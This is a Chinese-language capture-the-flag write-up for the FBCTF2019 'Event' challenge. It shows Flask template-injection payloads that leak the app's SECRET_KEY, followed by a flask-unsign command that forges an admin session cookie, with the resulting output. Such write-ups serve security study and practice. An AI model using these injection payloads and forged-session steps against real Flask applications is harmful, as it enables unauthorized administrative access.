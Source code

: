 # \[FBCTF2019]Event

## \[FBCTF2019]Event

## 考点

* Flask SSTI
* Flask SSTI 获取config
* Flask session伪造
* `flask-unsign`使用

## wp

提示登录注册，随便输然后看到是添加event的功能。先看看cookie吧

```
user=ImFhYWEi.YmPu9w.Q1_mTk2jF7Ix0tBOaceSswpZkgI
events_sesh_cookie=.eJwlzjsOwjAMANC7eO4QO4nj9DJV_BOsLZ0QdweJAzzpveHIM64H7K_zjg2Op8MOGa3qwsGijWYJlOYebJaiIhmGM6L1VOzabM5A81aIZ8rKxWsqFbHBo9ROyhxUuw4fiG6azI2qy8_VwoREZDYHUWXM0hVHgQ3uK85_BuHzBcvqLoU.YmPu9w.dH8qRtgy6eTettBjwAKpWX09AvI
```

`user`不知道是什么加密，用`flask-unsign`只得到了`aaaa`，这是我的登录名

![](<../../.gitbook/assets/image (3).png>)

`events_sesh_cookie`使用`flask-unsign`看到内容如下

```
{'_fresh': True, '_id': 'fe43ba1768b4290e184dde6ccf8b88fec19ee45fb15b4c99e1cd40269f8afa6a9b208c7670352b66e235b7d711dcbf66423d8c9930621222cc9722361f05b170', 'user_id': '1'}
```

三个输入都可控，三个位置都试试SSTI，fuzz了一下发现`__init__,__class__,__dict__`有回显

![](<../../.gitbook/assets/image (10).png>)

`__class__.__mro__[3].__subclasses__()`提示302，使用`__class__.__init__.__globals__['app']`不行，再用`__class__.__init__.__globals__[app]`也不行，不知道是不是过滤了关键字，

考虑从config信息中获取secret\_key，然后进行session伪造，使用`__class__.__init__.__globals__[app].config`获取`config`信息

```
'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'
```

`__class__.__init__.__globals__[app].__dict__`可以获取更多flask app的信息

再用flask-unsign加密`flask-unsign.exe --secret "fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y" --sign --cookie "admin"`

![](<../../.gitbook/assets/image (27).png>)

得到`ImFkbWluIg.YmP6Ag.7E8dA-A3bqO-TSTpfx76Qo7wdDo`

修改cookie中的user字段即可。
